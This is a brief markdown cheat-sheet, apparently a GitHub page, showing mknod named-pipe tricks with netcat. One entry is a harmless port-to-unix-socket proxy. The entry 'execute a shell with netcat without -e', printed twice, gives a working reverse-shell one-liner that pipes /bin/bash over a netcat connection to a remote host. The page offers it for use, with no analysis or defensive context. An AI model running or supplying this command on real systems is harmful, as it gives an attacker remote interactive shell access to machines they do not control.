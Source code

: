 # mknod

##### tiny proxy in shell to receive on port and write on unix socket

   mknod  replypipe p; nc -k -lp 1234 < replypipe| nc -U /var/run/mysocket.sock > replypipe

##### execute a shell with netcat without -e

   mknod  backpipe p && nc remote_server 1337 0<backpipe | /bin/bash 1>backpipe

##### execute a shell with netcat without -e

   mknod  backpipe p && nc remote_server 1337 0<backpipe | /bin/bash 1>backpipe
